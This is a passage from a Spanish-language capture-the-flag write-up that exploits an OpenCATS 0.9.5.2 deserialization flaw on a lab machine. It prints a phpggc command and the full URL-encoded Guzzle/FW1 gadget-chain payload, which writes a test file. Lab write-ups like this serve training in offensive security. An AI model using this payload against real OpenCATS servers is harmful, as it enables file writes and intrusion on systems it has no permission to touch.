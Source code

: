 ![imagen10](/assets/images/AdmirerTwo/admirer10.png)

Encontramos que la versión de opencats es la 0.9.5.2, buscando vulnerabilidades para esto encontramos este [Link](https://www.joyk.com/dig/detail/1676299490423142 "post"). Menciona que por deserealización podremos ejecutar comandos desde la plataforma, hacemos una prueba creando un archivo. Con ayuda de [Link](https://github.com/ambionics/phpggc "phpggc") creamos una cadena como nos muestra en el blog, después con burpsuite mandamos la petición con nuestra cadena y dentro de la máquina revisamos si nos creó el archivo prueba.txt.

```shell
❯ ./phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/hg8  hg8
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A19%3A%22%2Ftmp%2Fprivesc%2Fprueba%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A19%3A%22esto+es+una+prueba%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3A7%3Bi%3A7%3B%7D
```
![imagen11](/assets/images/AdmirerTwo/admirer11.png)

